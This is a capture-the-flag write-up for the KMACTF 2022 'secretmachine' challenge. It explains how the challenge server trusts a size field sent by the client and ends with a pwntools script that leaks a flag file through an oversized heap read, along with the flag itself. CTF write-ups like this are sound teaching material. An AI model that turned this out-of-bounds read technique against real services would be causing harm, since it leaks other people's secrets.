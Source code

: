 # KMACTF III/2022 - Game of KMA

You can download challenge file in my repo: [secretmachine.zip](secretmachine.zip)

There will be 2 file in zip:
- client
- server

Download and extract, then let's get started!

# 1. Find bug

We will start with the client file first. Let's decompile and see what it does. It will get 2 argument as host and port and connect to that ip address. Then we can input several options to interact with server.

The first option is add():

![add.png](images/add.png)

It will ask us for size and data, then assign them to argument 1 which might be a struct. Let's redefine that struct to the following struct for a better look:

```c
struct PacketStruct{
	short option;       // 2     bytes
	char size;          // 1     bytes
	char buf[0x100];    // 0x100 bytes
}
```

We know `buf` is `0x100` bytes because in deserialize() and serialize(), it execute memcpy() with size is `0x100` so we know the maximum size that `buf` can be is `0x100`.

And the decompiler is easy to read now:

![add2.png](images/add2.png)

Remember that `size` is 1 byte so if you enter a large number, it still just take the least significant byte for `size`. After all, it add data to the packet struct, the main struct of program, then add that packet to another packet struct and send it to server, we will call it `socket_packet`:

![deserialize.png](images/deserialize.png)

The next option is edit(). It do the same thing but take values from packet:

![edit.png](images/edit.png)

The third and forth options are just set and send `packet.option` to server so nothing interesting here.

So, no bug and nothing fun for client. Let's analyze the server and maybe there are somethings interesting.

We will also create a packet structure for server and analize what the program does. The server will wait for a new connection and if a client connect, it will read data which is sent from client. After that, the packet is passed as argument to handler().

At the first glance, we can see if option equal to `4626`, it will execute reset(). In reset(), seems like it reads flag from a file `secret.txt` to a heap memory, xor that data with `i` and return:

![reset.png](images/reset.png)

The next function is add(). It will malloc a chunk with size from received packet and will copy `buf` from received packet to that chunk:

![server-add.png](images/server-add.png)

The next function is show(). It will copy `packet->size` bytes, from received packet, from `ptr` to `packet->buf` and return that data to client:

![show.png](images/show.png)

The function show() just simply take first 8 bytes of received packet and assign to `ptr`, then return. The last function is del(), which just remove the pointer from `ptr` and that's all.

Notice that these function use the size which is sent from client, not the fixed size itself.

# 2. Idea

The idea for this chall is to have a pointer in `ptr` first with a small size, then execute reset() to read flag to the next chunk of `ptr` and send a packet with a large size to print the flag out.

If you're trying to find the bug in client, you are pranked because as we've done, there are no bug in client. The server will run the file server and us, will run the file client. But we know how server work, let's create our custom client to interact with server.

Summary:
- Stage 1: Create small chunk
- Stage 2: Read secret.txt
- Stage 3: Leak data

# 3. Exploit

The solve script for this chall will be as following:


```python
#!/usr/bin/python3

from pwn import *

p = remote('45.77.248.50', 1339)
# p = remote('127.0.0.1', 1339)

###################################
### Stage 1: Create small chunk ###
###################################
payload = p16(0x1122)    # option
payload += p8(0x18)      # size
payload += b'A'*0x100    # buf
p.send(payload)
p.recv(0x104)

################################
### Stage 2: Read secret.txt ###
################################
payload = p16(0x1212)    # option
payload += p8(0x18)      # size
payload += b'A'*0x100    # buf
p.send(payload)
p.recv(0x104)

##########################
### Stage 3: Leak flag ###
##########################
payload = p16(0x1169)    # option
payload += p8(0xff)      # size
payload += b'A'*0x100    # buf
p.send(payload)
p.recv(3)                               # Receive option & size
output = p.recv(0x100)[0x20:0x20+40]    # Receive buf

flag = b''
for i in output:
	flag += p8(i ^ ord('i'))            # Xor again with 'i'
print(flag)
```

# 4. Get flag

![get-flag.png](images/get-flag.png)

Flag is `KMACTF{1ns3cur3_c0mmun1c4ti0n_m4ch1n33}`